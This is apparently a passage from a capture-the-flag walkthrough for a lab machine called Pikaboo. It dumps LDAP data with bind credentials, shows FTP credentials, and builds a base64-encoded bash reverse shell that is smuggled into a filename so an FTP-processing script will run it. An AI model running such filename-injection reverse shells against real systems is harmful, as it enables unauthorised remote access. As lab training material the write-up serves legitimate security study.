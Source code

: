 Get data from ftp domain
```bash
ldapsearch -x -h 127.0.0.1 -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g' -b 'dc=ftp,dc=pikaboo,dc=htb'
```

![](/assets/img/posts/pikaboo/ldap-dump.png)


ftp user creds: `pwnmeow:_G0tT4_C4tcH_'3m_4lL!_`

Create a file with reverse shell as it's name in the local direcotry.

```bash
❯ echo 'bash  -i  >&  /dev/tcp/10.10.14.44/4141  0>&1  ' | base64 -w 0
YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC40NC80MTQxICAwPiYxICAK
❯ touch -- '|echo YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC40NC80MTQxICAwPiYxICAK|base64 -d|bash;.csv'
❯ ls
'|echo YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC40NC80MTQxICAwPiYxICAK|base64 -d|bash;.csv'
```

Use `mput *` to upload file. User "pwnmeow" don't have permission to write in ftp root directory but there are bunch of sub directory where we can write.

after uploading file run netcat listener.

